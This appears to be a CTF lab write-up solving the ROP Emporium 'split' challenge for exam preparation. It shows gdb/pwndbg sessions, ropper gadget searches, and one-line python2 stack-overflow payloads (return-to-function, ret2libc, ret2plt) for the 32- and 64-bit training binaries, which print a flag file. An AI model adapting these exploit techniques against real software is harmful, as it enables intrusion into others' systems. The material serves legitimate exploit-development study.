 ### 32 bit answers:

- Finding addresses using gdb:

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ gdb-pwndbg split32
    Reading symbols from split32...
    (No debugging symbols found in split32)
    pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
    pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
    pwndbg> x system
    0x80483e0 <system@plt>:	0xa01825ff
    pwndbg> r
    Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split32 
    split by ROP Emporium
    x86

    Contriving a reason to ask user for data...
    > ^C
    Program received signal SIGINT, Interrupt.
    0xf7fc9559 in __kernel_vsyscall ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ──────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────
     EAX  0xfffffe00
     EBX  0x0
     ECX  0xffffcde0 ◂— 0x0
     EDX  0x60
     EDI  0x8048430 (_start) ◂— xor    ebp, ebp
     ESI  0xf7fa4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
     EBP  0xffffce08 —▸ 0xffffce18 ◂— 0x0
     ESP  0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
     EIP  0xf7fc9559 (__kernel_vsyscall+9) ◂— pop    ebp
    ────────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────────
     ► 0xf7fc9559 <__kernel_vsyscall+9>     pop    ebp
       0xf7fc955a <__kernel_vsyscall+10>    pop    edx
       0xf7fc955b <__kernel_vsyscall+11>    pop    ecx
       0xf7fc955c <__kernel_vsyscall+12>    ret    
        ↓
       0xf7eaacc3 <read+51>                 cmp    eax, 0xfffff000
       0xf7eaacc8 <read+56>                 ja     read+144                    <read+144>
        ↓
       0xf7eaad20 <read+144>                mov    edx, dword ptr [esi - 0x110]
       0xf7eaad26 <read+150>                neg    eax
       0xf7eaad28 <read+152>                mov    dword ptr gs:[edx], eax
       0xf7eaad2b <read+155>                mov    eax, 0xffffffff
       0xf7eaad30 <read+160>                jmp    read+58                    <read+58>
    ────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
    00:0000│ esp 0xffffcda0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
    01:0004│     0xffffcda4 ◂— 0x60 /* '`' */
    02:0008│     0xffffcda8 —▸ 0xffffcde0 ◂— 0x0
    03:000c│     0xffffcdac —▸ 0xf7eaacc3 (read+51) —▸ 0xfff0003d ◂— 0xfff0003d
    04:0010│     0xffffcdb0 —▸ 0xffffce08 —▸ 0xffffce18 ◂— 0x0
    05:0014│     0xffffcdb4 —▸ 0xf7fe1ce0 (_dl_runtime_resolve+16) ◂— pop    edx
    06:0018│     0xffffcdb8 ◂— 0xffffffff
    07:001c│     0xffffcdbc —▸ 0xf7eaac90 (read) ◂— push   edi
    ──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
     ► f 0 0xf7fc9559 __kernel_vsyscall+9
       f 1 0xf7eaacc3 read+51
       f 2 0x80485f6 pwnme+73
       f 3 0x8048590 main+74
       f 4 0xf7dd7905 __libc_start_main+229
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> x system
    0xf7dfdd00 <__libc_system>:	0x100468e8
    pwndbg> 
    ```
    
- Return to usefulFunction:

    `python2 -c "print('A' * 44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08')" | ./split32`

- Ret2libc (aslr disable)

    `python2 -c "print('A' * 44 + '\x00\xdd\xdf\xf7' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32`

- Ret2plt (aslr bypass)

    `python2 -c "print('A' * 44 + '\xe0\x83\x04\x08' + 'AAAA' + '\x30\xa0\x04\x08')" | ./split32`

### 64 bit answers:

- Difference between 32 bit & 64 bit programs: system grabs arguments off rdi

- We will need to find ROP gadgets within the binary. With pwntools, we can use `rop = ROP(elf)` which will extract all ROP gadgets from the elf binary (similar to `ropper -f split --search "pop rdi"`)

- Find ROP gadgets in binary

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ ropper -f split --search "pop rdi"
    [INFO] Load gadgets for section: LOAD
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop rdi

    [INFO] File: split
    0x00000000004007c3: pop rdi; ret; 
    ```
- Analyse usefulFunction:

    ```
    ┌──(george93㉿kali)-[~/…/break/osed-prep/ROPEmporium/split]
    └─$ gdb-pwndbg split  
    Reading symbols from split...
    (No debugging symbols found in split)
    pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
    pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
    pwndbg> disas usefulFunction
    Dump of assembler code for function usefulFunction:
       0x0000000000400742 <+0>:	push   rbp
       0x0000000000400743 <+1>:	mov    rbp,rsp
       0x0000000000400746 <+4>:	mov    edi,0x40084a
       0x000000000040074b <+9>:	call   0x400560 <system@plt>
       0x0000000000400750 <+14>:	nop
       0x0000000000400751 <+15>:	pop    rbp
       0x0000000000400752 <+16>:	ret    
    End of assembler dump.
    pwndbg> search "/bin/cat"
    search: The program is not being run.
    pwndbg> r
    Starting program: /home/george93/Desktop/break/osed-prep/ROPEmporium/split/split 
    split by ROP Emporium
    x86_64

    Contriving a reason to ask user for data...
    > ^C
    Program received signal SIGINT, Interrupt.
    0x00007ffff7ec255e in __GI___libc_read (fd=0, buf=0x7fffffffdc10, nbytes=96) at ../sysdeps/unix/sysv/linux/read.c:26
    26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ───────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────
     RAX  0xfffffffffffffe00
     RBX  0x400760 (__libc_csu_init) ◂— push   r15
     RCX  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
     RDX  0x60
     RDI  0x0
     RSI  0x7fffffffdc10 ◂— 0x0
     R8   0x2c
     R9   0x7ffff7fdc1f0 (_dl_fini) ◂— push   rbp
     R10  0xfffffffffffffb87
     R11  0x246
     R12  0x4005b0 (_start) ◂— xor    ebp, ebp
     R13  0x0
     R14  0x0
     R15  0x0
     RBP  0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
     RSP  0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
     RIP  0x7ffff7ec255e (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
    ─────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────
     ► 0x7ffff7ec255e <read+14>     cmp    rax, -0x1000
       0x7ffff7ec2564 <read+20>     ja     read+112                <read+112>
        ↓
       0x7ffff7ec25c0 <read+112>    mov    rdx, qword ptr [rip + 0xdf889]
       0x7ffff7ec25c7 <read+119>    neg    eax
       0x7ffff7ec25c9 <read+121>    mov    dword ptr fs:[rdx], eax
       0x7ffff7ec25cc <read+124>    mov    rax, -1
       0x7ffff7ec25d3 <read+131>    ret    

       0x7ffff7ec25d4 <read+132>    nop    dword ptr [rax]
       0x7ffff7ec25d8 <read+136>    mov    rdx, qword ptr [rip + 0xdf871]
       0x7ffff7ec25df <read+143>    neg    eax
       0x7ffff7ec25e1 <read+145>    mov    dword ptr fs:[rdx], eax
    ─────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────
    00:0000│ rsp 0x7fffffffdc08 —▸ 0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
    01:0008│ rsi 0x7fffffffdc10 ◂— 0x0
    ... ↓        3 skipped
    05:0028│ rbp 0x7fffffffdc30 —▸ 0x7fffffffdc40 ◂— 0x0
    06:0030│     0x7fffffffdc38 —▸ 0x4006d7 (main+64) ◂— mov    edi, 0x400806
    07:0038│     0x7fffffffdc40 ◂— 0x0
    ───────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────
     ► f 0   0x7ffff7ec255e read+14
       f 1         0x400735 pwnme+77
       f 2         0x4006d7 main+64
       f 3   0x7ffff7dfb7fd __libc_start_main+205
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> search "/bin/cat"
    split           0x601060 '/bin/cat flag.txt'
    pwndbg> 
    ```
    
- Return to usefulFunction:

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split`

- Ret2libc (aslr disable)

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\xd8\xe1\xf7\xff\x7f\x00\x00')" | ./split`

- Ret2plt (aslr bypass)

    `python2 -c "print('A' * 40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x60\x05\x40\x00\x00\x00\x00\x00')" | ./split `                                                                                                       
